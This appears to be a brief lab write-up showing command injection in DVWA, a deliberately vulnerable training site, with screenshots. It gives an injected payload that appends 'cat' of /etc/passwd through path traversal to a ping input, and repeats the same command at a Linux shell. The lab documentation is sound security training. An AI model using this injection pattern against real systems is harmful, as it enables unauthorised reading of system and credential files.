


## Exposing the injection vulnerability in the DVWA Website

* Using command: 8.8.8.8 && cat ../../../../../ETC/PASSWD

* As you can see, we are able to see the ETC/PASSWD file inside the DVWA Server

## Same command using the Linux Command Line

* 8.8.8.8 && cat ../../../../../ETC/PASSWD

* NOTE: also observe in the picture that I have changed directory's (CD ..) to document the 5 subdirectories 

 
 

